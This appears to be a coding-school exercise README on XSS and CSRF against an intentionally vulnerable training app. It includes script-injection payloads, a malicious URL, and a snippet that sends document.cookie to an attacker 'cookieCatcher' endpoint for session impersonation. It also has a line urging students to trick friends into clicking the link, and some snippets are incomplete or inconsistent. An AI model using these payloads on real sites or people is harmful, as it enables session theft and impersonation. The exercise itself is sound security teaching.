



# Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e. escaped) before being rendered to the
page. First we will exploit this vulnerability by making people send messages
without their knowledge.

1. Create a new user, we'll call this `User A`.
1. Send this message to `User A` from `User A`, refresh the page and check your
console. You should see a message!

    ```html
    <script>
      console.log("I'm in your browser, running your JavaScripts");
    </script>
    ```

1. Make `User A` send a message to another user, `User B`, which we will create
in a while, via XSS. <br> Switch the `console.log()` statement with a `$.ajax()`
call to make the same kind of `POST` request that the Send Message form on this
page is making.

    ```html
    <script>
      $.ajax('/url of this page', {
        method: 'post',
        data: {
          // Form data goes here
        }
      })
    </script>
    ```

1. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout) and
create a new user, `User B`.
1. Send a specially crafted message from `User B` to `User A` and make sure that
you can use the same attack across users.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter. This parameter is also not sanitized before being rendered to the page, so we can run JavaScript with it too!

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()`
like this:

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
```

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie
you can impersonate them. This page is vulnerable because it prints out messages
received on the page without escaping (i.e. sanitizing) HTML.

We can run JavaScript on other users' pages by sending them messages with this
page containing the &lt;script&gt; tag. Cookies are accessible (by default) in
JavaScript via `document.cookie`. So if we craft the right script tag, we can
steal their cookie!

```html
<script>
  console.log('I can see your cookies!', document.cookie);
</script>
```

1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your console

    ```
    !!!Cookie catcher!!!
    ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute of this image.

    ```javascript
    var img = $('');
    // Read and submit this cookie via the img tag
    img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // you need to edit this line to pass the cookies to your server.
    $('body').append(img); // this will append the HTML element into the DOM and therefore fire a GET request to the URL above.
    ```

1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Clone the `steal-this-app` GitHub repo. The vulnerabilities are in
`steal-this-app/views/messenger.hbs`

Replace triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing attempt the XSS attacks you did earlier to verify they
no longer work!

This is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack called
Cross-site request forgery aka CSRF.

This type of attack does not involve running JavaScript in the target
site but instead relies on making requests on behalf of the user while
they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Clone the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app)
1. Start the Attacker app and connect to [http://localhost:3000/](http://localhost:3000/) make sure it's running.
1. Create a new route `GET /csrfLogout` that renders a single `img` tag
  that points to the logout page:
  

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2) Are you still logged in?

### (Bonus) b. Send POST request with CSRF

OK, we made someone log out without telling them. What's the big deal?
Well let's now take this to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send message, just like we did earlier
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger`
by using the `action` attribute and use a `POST` request with the
`method` attribute. It should look like this:



Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.



### (Bonus) Fix CSRF vulnerabilities

To fix CSRF we need to add a second layer of protection to endpoints
that perform actions i.e. `POST` endpoints.

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js`

    ```javascript
    var csrf = require('csurf')();
    app.use(csrf);
    ```

1. Now all your `GET` requests will contain a new property `req.csrfToken()`
  which you can render as a hidden form field.

    **Route**

    ```javascript
    app.use('/route', function(req, res) {
      res.render('template', {
        _csrf: req.csrfToken()
      });
    });
    ```

    **Template**

    ```html
    <form method="post">
      <input type="hidden" name="_csrf" value="{{csrfToken}}">
    </form>
    ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
